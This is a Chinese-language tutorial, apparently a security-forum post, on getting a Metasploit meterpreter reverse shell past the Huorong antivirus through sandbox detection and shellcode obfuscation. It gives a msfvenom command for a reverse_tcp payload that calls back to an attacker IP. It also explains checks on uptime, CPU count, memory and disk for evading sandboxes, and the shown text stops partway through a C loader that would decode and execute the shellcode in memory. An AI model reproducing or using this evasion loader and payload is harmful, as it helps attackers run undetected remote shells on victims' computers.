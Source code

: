 0x00 导读
=======

通过反沙箱与混淆shellcode绕过火绒上线metasploit。

环境:  
kali:攻击者  
win10:受害者  
编译器:Virtual Studio 2022  
杀软:火绒5.0.67.2

0x01 基础知识
=========

沙箱是啥
----

百度对沙箱的介绍:[沙箱（网络编程虚拟执行环境）\_百度百科 (baidu.com)](https://baike.baidu.com/item/%E6%B2%99%E7%AE%B1/393318)

我对沙箱的理解:它是一个虚拟的系统，我们写的程序可以在这个系统里运行，它存在的作用是来帮助我们判断是不是可疑程序，因为不管你是什么东西跑起来看它干了什么事就知道了嘛。

0x02 生成shellcode
================

`msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.225.130 lport=6666 -f c`  
还是用`msfvenom`工具生成shellcode，-p参数是回连的载荷这里是32位的因为兼容性好一些，lhost是shellcode执行后回连的ip，这里是kali的ip，lport是要回连到哪一个端口上，-f参数是生成木马的类型。

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-feb3536f41371cf4a1446797fec8e90017fe0bd7.png)

0x03 代码解释与反沙箱思路
===============

上面说过沙箱是一个虚拟的系统环境，只是用来检测恶意程序的，并不会考虑到用户正常的需求比如打游戏这些，所以沙箱的配置不会像我们的真实系统那么高，这样的话，我们可以通过判断，当前环境的硬盘大小，处理器的个数，系统的运行内存来确定当前程序是不是在沙箱中运行的，也可通过检测鼠标键盘等硬件设备来判断。

现在思路已经讲过了下面我们来看具体的代码流程和代码的实现。

代码流程：`通过调用Windows Api来判断当前环境是不是沙箱->如果不是就对shellcode进行取反->然后再对取反的结果再取反还原我们的shellcode->载入内存->修改内存块权限并执行这块内存`

下面是完整的代码。

```js
#include <stdio.h>
#include <Windows.h>

int main()
{

    DWORD StartTime = GetTickCount();

    if (StartTime > 60000)
    {
        SYSTEM_INFO systeminfo = { 0 };
        GetSystemInfo(&systeminfo);
        DWORD CpuCount = systeminfo.dwNumberOfProcessors;
        if (CpuCount >= 4)
        {
            _MEMORYSTATUSEX Memory = { 0 };
            Memory.dwLength = sizeof(Memory);
            GlobalMemoryStatusEx(&Memory);
            DWORD MemorySize = Memory.ullAvailPhys;
            if (MemorySize >= 66339072)
            {
                TCHAR DiskName[512] = { 0 };

                GetLogicalDriveStrings(sizeof(DiskName), DiskName);

                DWORD DiskBytes = 0, DiskSpace = 0, DiskSpace2 = 0;
```